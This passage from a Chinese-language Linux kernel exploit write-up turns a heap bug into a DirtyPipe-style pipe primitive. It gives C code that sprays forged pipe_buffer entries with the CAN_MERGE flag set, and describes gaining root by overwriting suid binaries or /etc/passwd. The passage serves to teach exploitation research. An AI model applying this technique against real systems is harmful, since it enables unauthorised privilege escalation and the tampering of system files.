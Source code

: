 

下一步很关键！因为我们并不需要泄露ops字段，而是直接奔着flags去。

因为我们并不做ROP，而是将其转化为类似DirtyPipe的场景，我们知道自从DirtyPipe被修复后，使用`splice()`时flags会被重新设置为0，而我们的目标就是将这个flags再次修改为`PIPE_BUF_FLAG_CAN_MERGE`，从而将DirtyPipe作为和ROP同级别的原语来使用，只不过后者是内核任意代码执行，而前者是任意文件修改，它们都能让我们得到本地权限提升。

> 具体可以参考 https://github.com/veritas501/pipe-primitive
>
> 在 kernel >= 5.8 中需要修改 pipe buffer 中 splice 页的`flag |= PIPE_BUF_FLAG_CAN_MERGE`即可（有能力可以顺便把offset和len改成0，这样就能从文件的开头开始写）；在 kernel < 5.8 中，需要先leak一下pipe_buffer中的anon_pipe_ops，然后将 splice 页的的ops改为anon_pipe_ops（因为<5.8版本中能否merge是看ops的）（有能力依然可以顺便把offset和len改成0）。

```c
logd("edit pipe_buffer->flags");
{
    memset(buff, 0, sizeof(buff));
    memcpy(buff, pipe_buffer_backup, sizeof(pipe_buffer_backup));
    struct typ_pipe_buffer *ptr = (struct typ_pipe_buffer *)buff;
    ptr[1].flags = PIPE_BUF_FLAG_CAN_MERGE; // for kernel >= 5.8
    ptr[1].len = 0;
    ptr[1].offset = 0;
    ptr[1].ops = ptr[0].ops; // for kernel < 5.8
    spray_skbuff_data(buff, 0x400 - 0x140);
    hexdump(buff, sizeof(struct typ_pipe_buffer) * 2);
}
```

![image-20220513002512092](image-20220513002512092.png)



从而下次对pipe写入就会修改文件的page cache，得到和DirtyPipe一样任意文件写的能力！对本地提权来说只要修改suid程序的内容或是修改/etc/passwd即可。



通过pipe原语，我们就可以无需ROP从而得到一份几乎不用做版本适配的通用内核exploit代码，非常的完美。

## 参考

- https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
- https://etenal.me/archives/1825
- https://github.com/veritas501/pipe-primitive

